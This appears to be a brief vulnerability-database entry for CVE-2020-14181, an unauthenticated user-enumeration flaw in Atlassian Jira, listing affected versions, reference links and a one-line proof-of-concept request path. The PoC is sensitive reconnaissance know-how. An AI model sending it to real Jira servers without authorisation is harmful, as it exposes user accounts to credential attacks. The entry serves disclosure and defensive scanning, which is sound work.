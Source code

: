 ```yaml
---
id: CVE-2020-14181
pocs:
    - https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/cves/CVE-2020-14181.yaml
    - https://twitter.com/ptswarm/status/1318914772918767619
refs:
    - https://jira.atlassian.com/browse/JRASERVER-71560
---
```

Atlassian Jira unauthenticated user enumeration for versions:
Jira < 7.13.6
8.0.0 ≤ Jira < 8.5.7
8.6.0 ≤ Jira < 8.12.0

PoC: /secure/ViewUserHover.jspa?username=test
